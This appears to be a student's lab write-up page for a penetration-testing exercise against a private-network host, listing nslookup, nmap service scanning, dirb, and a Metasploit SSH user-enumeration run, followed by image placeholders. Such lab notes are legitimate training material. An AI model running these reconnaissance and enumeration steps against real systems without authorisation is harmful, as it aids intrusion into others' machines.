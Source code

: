 # Target 2: bree.shire.org

## Target 1.2: bree.shire.org

```
nslookup bree.shire.org 10.0.5.22
# IP is 10.0.5.32
nmap -sV 10.0.5.32
dirb http://10.0.5.32 -wfr
# start metasploit
msf6 > search openssh
msf6 > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > options
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.0.5.32
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /home/champuser/Desktop/target2/users.txt
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
```

### Activity on bios.shire.org

```
ls -al 
```

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>
